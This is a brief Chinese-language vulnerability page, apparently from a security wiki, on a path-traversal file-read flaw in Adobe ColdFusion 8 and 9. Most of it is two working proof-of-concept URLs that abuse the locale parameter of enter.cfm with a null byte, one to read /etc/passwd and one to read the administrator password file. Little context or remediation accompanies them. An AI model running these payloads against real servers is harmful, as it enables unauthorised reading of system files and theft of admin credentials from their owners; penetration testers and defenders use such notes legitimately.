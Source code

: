 # Adobe ColdFusion 文件读取漏洞

最后更新于：2020-09-21 13:01:58

### 漏洞范围

Adobe ColdFusion 8、9

### 漏洞POC

读取etc/passwd

```bash
http://your-ip:8500/CFIDE/administrator/enter.cfm?locale=../../../../../../../../../../etc/passwd%00en
```

读取后台管理员密码

```bash
http://your-ip:8500/CFIDE/administrator/enter.cfm?locale=../../../../../../../lib/password.properties%00en
```